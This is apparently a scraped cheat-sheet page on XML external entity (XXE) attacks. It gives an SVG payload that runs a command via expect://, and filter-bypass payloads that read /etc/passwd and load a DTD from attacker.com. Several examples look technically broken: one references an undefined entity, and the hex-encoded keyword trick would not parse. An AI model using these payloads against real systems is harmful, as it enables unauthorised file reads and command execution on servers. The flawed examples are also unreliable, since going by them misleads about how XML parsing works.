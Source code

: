     ```

    **XXE: XXE inside SVG**

    ```svg
    <svg xmlns="<http://www.w3.org/2000/svg>" xmlns:xlink="<http://www.w3.org/1999/xlink>" width="300" version="1.1" height="200">
        <image xlink:href="expect://ls"></image>
    </svg>
    ```

## Bypassing Filters that Block "ENTITY":

If a web application is filtering or blocking the word "ENTITY" to prevent XXE attacks, there are several **bypass techniques** you can try:

**1. Case Manipulation:**

*   Some filters are case-sensitive and may only block the exact string `ENTITY` in uppercase. You can try different cases, such as:

    ```xml
    <!DOCTYPE foo [ 
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    ```

    Test variations like:

    * `<!entity>`
    * `<!EnTiTy>`

**2. Use Parameter Entities:**

*   Instead of defining an external entity directly, you can use **parameter entities** (which start with `%`) to indirectly reference the malicious entity:

    ```xml
    <?xml version="1.0" ?>
    <!DOCTYPE foo [ 
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">
    %dtd;
    ]>
    <foo>&xxe;</foo>
    ```

    The malicious `.dtd` file hosted on `attacker.com` could contain the payload for reading a file.

**3. Hex Encoding:**

*   Sometimes, filters may miss encoded characters. You can try encoding the word `ENTITY` using its **hexadecimal** or **decimal** representation in XML:

    ```xml
    <!DOCTYPE foo [ 
    <!&#69;&#78;&#84;&#73;&#84;&#89; xxe SYSTEM "file:///etc/passwd">
    ]>
    ```
